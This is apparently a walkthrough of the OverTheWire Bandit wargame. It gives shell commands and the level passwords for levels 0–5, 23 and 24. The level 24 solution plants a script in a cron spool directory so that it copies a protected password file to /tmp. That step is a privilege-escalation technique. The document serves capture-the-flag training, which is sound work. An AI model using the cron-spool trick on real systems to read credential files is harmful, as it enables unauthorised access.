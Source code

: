 # aa
# Bandit Walkthrough
### Level 0

# Copyable Text Example

This text is **copyable**. Just select and copy it!

## Code Block Example
You can include code that is also copyable:
ssh bandit0@bandit.labs.overthewire.org -p2220
ls
cat readme
# Password: `ZjLjTmM6FvvyRnrb2rfNWOZOTa6ip5If` [Copy](javascript:void(0))
cat ./
# Password: `263JGJPfgU6LtdEvgfWU1XP5yac29mFx` [Copy](javascript:void(0))
cat "spaces in this filename"
# Password: `MNk8KNH3Usiio41PRUEoDFPqfxLPlSmx` [Copy](javascript:void(0))
cat ...Hiding-From-You
# Password: `2WmrDFRmJIq3IPxneAaMGhap0pFhF3NJ` [Copy](javascript:void(0))
file ./*
cat ./-file07
# Password: `4oQYVPkxZOOEOO5pTW81FB8j8lxXGUQw` [Copy](javascript:void(0))

23

cd /etc/cron.d/
cat cronjob_bandit23
cat /usr/bin/cronjob_bandit23.sh
echo I am user bandit23 | md5sum | cut -d ' ' -f 1
cat /tmp/8ca319486bfbbc3663ea0fbe81326349
# Password: **0Zf11ioIjMVN551jX3CmStKLYqjk54Ga** 

24
cat /etc/cron.d/cronjob_bandit24
cat /usr/bin/cronjob_bandit24.sh
echo '#!/bin/bash' > /var/spool/bandit24/foo/script.sh
echo '' >> /var/spool/bandit24/foo/script.sh
echo "cat /etc/bandit_pass/bandit24 > /tmp/secret" >> /var/spool/bandit24/foo/script.sh
chmod +rx /var/spool/bandit24/foo/script.sh
cat /var/spool/bandit24/foo/script.sh
cat /tmp/secret
# Password: **gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8**

